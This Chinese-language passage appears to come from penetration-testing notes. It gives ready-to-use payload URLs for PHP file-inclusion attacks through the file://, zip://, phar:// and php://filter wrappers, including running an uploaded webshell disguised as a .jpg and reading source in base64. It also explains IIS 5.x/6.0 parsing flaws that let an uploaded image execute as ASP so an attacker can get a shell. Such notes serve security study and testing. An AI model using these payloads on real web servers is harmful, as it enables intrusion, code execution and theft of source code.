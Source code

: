 **几种利用方法**
- 常规利用

    `Payload: http://www.test.com/test.php?file=upload/hourse.jpg&x=phpinfo()`

- 文件协议读取

    其前提是得知道网站应用的绝对路径(物理路径):

    `Payload: http://www.test.com/test.php?file=file://D:/Server/htdocs/test/upload/hourse.jpg&x=phpinfo()`

    结果和上面一样,只是地址栏链接不一样.

- 压缩包文件读取

    依然需要知道压缩包文件的绝对路径

    `Payload: http://www.test.com/test.php?file=zip://D:/Server/htdocs/test/upload/shell.zip%23shell.php&x=phpinfo())`

- phar:// 相对路径运行 PHP 文件

    当我们想要运行自己的 PHP 文件,该咋做呐？通过文件包含(include,require 这类函数),首先构造一个这样的文件,将 webshell.php 添加到压缩文件 .zip,然后将压缩包后缀名改为 .jpg 反正合法的文件后缀即可(一般的操作是这样的,当只能上传图片的时候),最后使用 phar:// 按照相对路径读取并执行文件.

    `Payload:http://www.test.php?file=phar://upload/shell.jpg/shell.php?x=phpinfo()`

- 读取源码

    当我们没法儿上传文件,但是又想读取文件的源码来寻找别的漏洞从而进一步利用该怎么做呐？同样的利用 php://filter/ 协议可以实现,要注意的是,因为编码问题,一般我们会将读取的文件先 Base64 编码一下输出:

    `Payload:http://www.test.com/test.php?file=php://filter/read=convert.base64-encode/resource=upload/shell.php`

---

# 文件解析漏洞
**文章**
- [解析漏洞总结 – erevus](http://www.vuln.cn/7070)

## IIS
**5.x/6.0 解析漏洞**

IIS 6.0 解析利用方法有两种

1. 目录解析

    `/xx.asp/xx.jpg`

2. 文件解析

    `wooyun.asp;.jpg `

第一种,在网站下建立文件夹的名字为 .asp、.asa 的文件夹,其目录内的任何扩展名的文件都被 IIS 当作 asp 文件来解析并执行.

例如创建目录 wooyun.asp,那么 `/wooyun.asp/1.jpg` 将被当作 asp 文件来执行.假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿 shell 了.
